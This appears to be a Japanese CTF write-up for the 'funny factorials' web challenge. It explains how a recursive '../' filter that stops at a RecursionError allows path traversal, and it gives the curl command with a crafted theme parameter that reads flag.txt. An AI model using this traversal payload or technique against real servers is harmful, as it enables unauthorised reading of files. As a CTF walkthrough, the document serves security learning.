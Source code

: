## web/funny factorials

![5](./images/5.jpg)

入力値の`../`を空文字に置換し続ける処理がありますが、置換回数がRecursionErrorが発生するまでとなっているため、パストラバーサルが可能です。  
設定値は`sys.setrecursionlimit(100)`となっています。

```py
def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path

@app.route('/')
def index():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    return render_template('index.html', css=theme)
```

後はエラーが出ないように調整して完了。

```sh
$ curl https://funny-factorials.amt.rs/?theme=..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/flag.txt
<!DOCTYPE html>
<html>
  <head>
    <title>Factorial Calculator</title>
    <!-- inline styles passed into the template -->
```